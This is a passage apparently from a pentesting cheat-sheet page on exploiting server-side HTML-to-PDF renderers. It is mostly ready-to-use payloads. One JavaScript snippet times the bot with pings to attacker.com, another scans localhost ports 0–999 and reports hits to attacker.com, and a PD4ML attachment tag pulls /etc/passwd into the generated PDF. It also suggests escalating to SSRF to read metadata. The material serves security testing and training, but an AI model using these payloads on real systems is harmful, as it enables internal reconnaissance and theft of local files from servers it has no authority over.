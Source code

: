 ```html
<!--Make the bot send a ping every 500ms to check how long does the bot wait-->
<script>
    let time = 500;
    setInterval(()=>{
        let img = document.createElement("img");
        img.src = `https://attacker.com/ping?time=${time}ms`;
        time += 500;
    }, 500);
</script>
<img src="https://attacker.com/delay">
```

### Port Scan

```html
<!--Scan local port and receive a ping indicating which ones are found-->
<script>
const checkPort = (port) => {
    fetch(`http://localhost:${port}`, { mode: "no-cors" }).then(() => {
        let img = document.createElement("img");
        img.src = `http://attacker.com/ping?port=${port}`;
    });
}

for(let i=0; i<1000; i++) {
    checkPort(i);
}
</script>
<img src="https://attacker.com/startingScan">
```

### [SSRF](../ssrf-server-side-request-forgery/index.html)

This vulnerability can be transformed very easily in a SSRF (as you can make the script load external resources). So just try to exploit it (read some metadata?).

### Attachments: PD4ML

There are some HTML 2 PDF engines that allow to **specify attachments for the PDF**, like **PD4ML**. You can abuse this feature to **attach any local file** to the PDF.\
To open the attachment I opened the file with **Firefox and double clicked the Paperclip symbol** to **store the attachment** as a new file.\
Capturing the **PDF response** with burp should also **show the attachment in cleat text** inside the PDF.

```html
<!-- From https://0xdf.gitlab.io/2021/04/24/htb-bucket.html -->
<html>
  <pd4ml:attachment
    src="/etc/passwd"
    description="attachment sample"
    icon="Paperclip" />
</html>
```
